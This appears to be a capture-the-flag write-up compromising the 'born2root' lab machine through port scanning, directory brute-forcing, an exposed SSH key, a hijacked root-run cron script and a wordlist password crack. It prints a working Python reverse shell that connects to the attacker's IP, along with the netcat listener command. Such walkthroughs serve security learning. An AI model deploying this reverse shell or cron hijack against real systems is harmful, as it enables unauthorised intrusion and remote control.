

# Reconnaisance

Okay, here we go. Scanning all of the ports revealed the following:
`nmap -p- -T4 -Pn -oN nmap/initial born2root`
```
Nmap scan report for born2root (192.168.1.7)
Host is up (0.034s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
48777/tcp open  unknown
```
Let's have a closer look at these.
`nmap -p 111,48777,22,80 -sC -sV -O -T4 -Pn -oN nmap/all_ports born2root`
```
Nmap scan report for born2root (192.168.1.7)
Host is up (0.0072s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
| ssh-hostkey: 
|   1024 3d:6f:40:88:76:6a:1d:a1:fd:91:0f:dc:86:b7:81:13 (DSA)
|   2048 eb:29:c0:cb:eb:9a:0b:52:e7:9c:c4:a6:67:dc:33:e1 (RSA)
|   256 d4:02:99:b0:e7:7d:40:18:64:df:3b:28:5b:9e:f9:07 (ECDSA)
|_  256 e9:c4:0c:6d:4b:15:4a:58:4f:69:cd:df:13:76:32:4e (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
| http-robots.txt: 2 disallowed entries
|_/wordpress-blog /files
|_http-title:  Secretsec Company
|_http-server-header: Apache/2.4.10 (Debian)
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          34283/udp   status
|   100024  1          43795/udp6  status
|   100024  1          48777/tcp   status
|_  100024  1          53482/tcp6  status
48777/tcp open  status  1 (RPC #100024)
MAC Address: 08:00:27:FB:C3:3C (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
The report reveals something about the service running at port `80`. And
apparently, the page at `/wordpress-blog` contained all the secrets no just
kidding it just had the picture of a troll face.
However, the home page does give me a few names under the "About Us" header:
```
Martin N
Hadi M
Jimmy S
```
Furthermore, there's is also a "Contact Us" header with the
"martin@secretsec.com" email address. Could potentially be useful.

Perhaps, enumeration is the key here.

# Enumeration
Let's just go full `gobuster` on this thing.
```
gobuster dir \
-w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt \
-u http://born2root -t 40
```
And `gobuster` immediately found an extra `/icons` directory that I hadn't known
about. Loading up that location led me to find a file named `VDSoyuAXiO.txt`.
Pretty weird name, but it apparently contained an RSA private key.

# Getting In

The email address we saw earlier had been a hint for the username. Now all we
need to do is use that key to login as the `martin` user.
`ssh -o PubkeyAcceptedAlgorithms=+ssh-rsa -i id_rsa -l martin born2root`

And it asked me for another password.

```
READY TO ACCESS THE SECRET LAB ?

secret password :
```

The fact that it asks for a **secret** password tells my gut that it's some
silly common password. I just tried hitting the Enter key and apparently that
gave me a shell. I guess the password prompt was just a gimmick.

# Privilege Escalation

After logging in, I decided to check a few files that I could find.

```
martin@debian:~$ cat .bash_history
nano /var/tmp/login.py
nano .bashrc
ls
ls -ah
sudo su
exit
nano /var/tmp/login.py
clear
nano /var/tmp/login.py
su root
ls
su root
clear
su root
clear
cd /var/www/html/icons/
ls
mv VdXAsOKisAOIO.txt.png key.txt.png
su root
su roo
su root
exit
ls
su root
exit
```

I checked the `/var/tmp/login.py` file and it had the "secret passwords" in it
and apparently no matter what you typed, the password would've been valid.

I checked to see if there were any interesting configuration files. I saw the
crontab entries and decided to have a look.

`cat /etc/crontab`

```
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*/5   * * * *   jimmy   python /tmp/sekurity.py
```

And interestingly a cronjob had been there. I just fetched a reverse shell from [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md):

```python
import socket
import os
import pty


# create a socket
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM);

# use that socket to connect to my attacker machine
s.connect(("192.168.49.154",1234));

# duplicate the socket's file descriptor to be stdin, stdout and stderr
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);

# spawn a shell
pty.spawn("/bin/sh")
```

Put that in `/tmp/sekurity.py` and now I just have to listen to incoming
connections with `netcat`:

`nc -lvp 1234`

I get a reverse shell eventually and now I am the user `jimmy`. I see a SUID
binary named `networker`. I run it and get some output:
```
*** Networker 2.0 ***
eth0      Link encap:Ethernet  HWaddr 00:50:56:ba:44:9c
          inet addr:192.168.154.49  Bcast:192.168.154.255  Mask:255.255.255.0
          inet6 addr: fe80::250:56ff:feba:449c/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:1305 errors:0 dropped:0 overruns:0 frame:0
          TX packets:946 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:122788 (119.9 KiB)  TX bytes:854022 (834.0 KiB)

lo        Link encap:Local Loopback
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:5 errors:0 dropped:0 overruns:0 frame:0
          TX packets:5 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0
          RX bytes:448 (448.0 B)  TX bytes:448 (448.0 B)

PING localhost (127.0.0.1) 56(84) bytes of data.
64 bytes from localhost (127.0.0.1): icmp_seq=1 ttl=64 time=0.018 ms

--- localhost ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.018/0.018/0.018/0.000 ms
Done
echo linux tool version 5
```

After failing to use that binary to my advantages, I ultimately decided to give
up. I noticed there was another user on the system, `hadi`, perhaps I should try
to crack his password. I know I'm supposed to do it using `hydra` but I will
require a smaller wordlist since something like `rockyou.txt` is going to take
forever. I decided to check if the `rockyou.txt` wordlist had any passwords with
the word `hadi` in it and apparently there were some. I decided to try my luck
with those matched entries.


And success!

Although I didn't expect it to, but it did work. Now I can ssh
login as `hadi` on that machine. I tried running `su` with the same password and
apparently it worked as well. So that's how the root flag was discovered. A lot
of rabbit holes, but apparently enumeration _was_ the key here.
